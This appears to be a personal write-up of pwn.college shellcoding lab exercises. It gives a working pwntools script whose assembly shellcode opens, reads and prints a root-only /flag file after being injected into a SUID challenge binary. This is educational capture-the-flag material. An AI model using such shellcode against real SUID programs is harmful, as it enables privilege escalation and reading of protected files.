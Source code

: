 ```yaml
---
title: "Notes of pwn.college babyshell&sandboxing levels"
date: "2022-01-16"
author: "uoft-flyfreejay"
description: "short notes for pwn.college dojo's shellcoding exercises"
---
```


# Intro

So, here we go with the shellcoding modules. 

In these challenges, my goals are to read the contents of the `/flag` file. That file is only readable as a root. We will have to inject shellcodes into the binaries located under each `/challenge` folder to read the `/flag` using the SUID of the challenge binary. Of course, to make things more interesting each challenge will have their own special constraints. Let's get hacking!

## babyshell

### level1

- Referece: https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/

The very first level. Running `ls -al` in the `/challenge` directory reveals that the binary in the folder has SUID bit set. Constructing the shellcode:

```python
import pwn
import time

pwn.context.arch = "amd64"
pwn.context.encoding = "latin"
pwn.context.log_level = "INFO"
pwn.warnings.simplefilter("ignore")

assembly = r'''
.global _start
.intel_syntax noprefix
_start:
    mov rax, 2
    lea rdi, [rip + flag]
    mov rsi, 0
    syscall
    mov rdi, rax
    mov rsi, rsp
    mov rdx, 100
    mov rax, 0
    syscall
    mov rdi, 1
    mov rsi, rsp
    mov rdx, rax
    mov rax, 1
    syscall
    mov rax, 60
    syscall
flag:
    .ascii "/flag\0"
'''

with pwn.process(f"/challenge/{pwn.os.getenv('HOSTNAME')}") as target:
    pwn.info(target.readrepeat(1))

    target.send(pwn.asm(assembly))
```